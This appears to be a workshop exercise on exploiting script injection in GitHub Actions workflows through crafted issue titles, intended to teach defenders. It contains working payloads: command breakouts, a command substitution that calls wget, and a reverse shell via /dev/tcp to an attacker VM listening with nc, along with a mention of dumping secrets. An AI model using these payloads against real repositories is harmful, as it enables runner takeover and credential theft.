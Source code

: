 # Exercise 1 - :bomb: Exploiting the script injection vulnerability in the run command
The [Check issue title workflow](/.github/workflows/check-issue-title.yml) uses the issue title in the `run` command as follows:
```
title="${{ github.event.issue.title }}"
```
Because this value is provided by the user when they create a new issue, this provides an opportunity for an attacker to exploit the workflow with by crafting an issue title that tricks the script into executing code where it's expecting data.

If we open an issue with the title...
```
octocat"; ls -l $GITHUB_WORKSPACE"
```
...the script looks like the following...
```
title="octocat"; ls -l $GITHUB_WORKSPACE""
```

This payload closes the initial quote, then ends the command with a semicolon. This allows the following `ls -s` command to run as a separate command.  

### Step by step 1
Let's see this in action by creating a new issue with this title and see what happens. Follow the steps below to exlpoit the script injection vulnerability in your repo:  
1. Go to the Issues tab and click the green `New issue` button in the top right.  
2. In the issue form type `octocat"; ls -l $GITHUB_WORKSPACE"` in the title field.  
3. Leave the description field empty and click the green `Create` button in the bottom rigth.  
4. Navigate to the Actions tab and select the `Check issue title` actions workflow on the left.  
5. Click on the workflow run.  
6. Click on the job `check-issue-title`.  
7. In the `check-issue-title` job lob, click the `>` to the left of `Check issue title` step to see the output.  
8. Observe that the workflow runs the command `ls -l $GITHUB_WORKSPACE`!  

![alt script injection output in log](/images/exercise1.png "script injection output in log")

Now let's look at the [Check issue title with action workflow](/.github/workflows/check-issue-title-with-action.yml) which uses an [action](/.github/actions/check-issue-title-action/action.yml) using the run command. The [action](/.github/actions/check-issue-title-action/action.yml) uses the issue title in the run command as follows:
```
if [[ "${{ inputs.issue-title }}" =~ ^octocat ]]; then
...
```
We'll need to craft a different payload for this because the input is used directly in the `if` statement. Let's try opening an issue with the following title...
```
" == $(ls -l $GITHUB_WORKSPACE) && "octocat
```
If we look at the run of the [Check issue title with action workflow](/.github/workflows/check-issue-title-with-action.yml) that was triggered using the payload we used above, we will notice that we don't see the output of the `ls -s $GITHUB_WORKSPACE` command in the logs. So, this workflow is not vulnerable, right? Wrong! This workflow is still vulnerable to script injection. Let's try using a different payload to see some evidence of that.  

If we open an issue with the title...
```
" == $(wget github.com) && "octocat
```
...the script looks like the following...
```
if [[ "" == $(wget github.com) && "octocat" =~ ^octocat ]]; then
...
```
This payload will cause the script to run `wget github.com` as it evaluates the if condition.  

### Step by step 2
Let's see this in action by creating a new issue with this title and see what happens. Follow the steps below to exlpoit the script injection vulnerability in your repo:  
1. Go to the Issues tab and click the green `New issue` button in the top right.  
2. In the issue form type `" == $(wget github.com) && "octocat` in the title field.  
3. Leave the description field empty and click the green `Create` button in the bottom rigth.  
4. Navigate to the Actions tab and select the `Check issue title with action` actions workflow on the left.  
5. Click on the workflow run.  
6. Click on the job `check-issue-title`.  
7. In the `check-issue-title` job lob, click the `>` to the left of `Check issue title` step to see the output.  
8. Observe that the workflow log shows the output of the command `wget github.com`!  

### :imp: Getting a shell on the runner
Now let's try something a little more sinister...  
> **Note**: Because next part of this lesson requires a cloud VM with a public IP address, we will only demo this section in the workshop. We encourage you to go through this part of the exercise on your own after the workshop.  

1. Spin up a linux VM in the cloud that has a public IP address.
2. Open a command prompt and ssh into the VM
3. Run the command `nc -nvlp 1337` on the command prompt of the VM. This will cause the VM to listen on the port 1337.  
3. Next open a new issue in your repo with the title `octocat"; bash -i >& /dev/tcp/<YOUR-VM-IP-ADDRESS>/1337 0>&1 ; ls -l $GITHUB_WORKSPACE"`, replacing `<YOUR-VM-IP-ADDRESS>` with the public IP address of your cloud VM. This will cause the workflow to pipe the bash shell to your VM's IP address on port 1337.  
4. Now return to the command prompt window. As the worklfow runs, you will see your command prompt window drop into a shell on the runner. Now you have a shell on the runner! This is a great "foot in the door" from which I can attemp other exploits, like dumping secrets or cloud credentials to use in other attacks.  


